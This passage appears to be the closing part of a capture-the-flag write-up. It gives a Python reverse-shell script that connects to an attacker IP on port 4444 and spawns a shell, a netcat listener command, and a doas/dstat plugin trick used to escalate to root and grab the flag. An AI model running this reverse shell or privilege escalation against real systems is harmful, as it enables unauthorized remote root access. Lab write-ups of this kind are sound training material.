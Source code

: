 > We have to be quick it seems that our script get deleted

- Here is the script to get the reverse shell

```python
#!/usr/bin/python3

import socket,os,pty;

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.2",4444));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
pty.spawn("/bin/sh")
```

- We have to name it according to the convention so I named mine `dstat_rootshell.py`
- We set out listener `rlwrap nc -lvp 4444`
- And we can launch it `/usr/local/bin/doas -u root /usr/bin/dstat --rootshell`
- We get our root shell  
![root shell](../.res/2022-12-23-16-20-44.png)  
- We can grab the root flag!
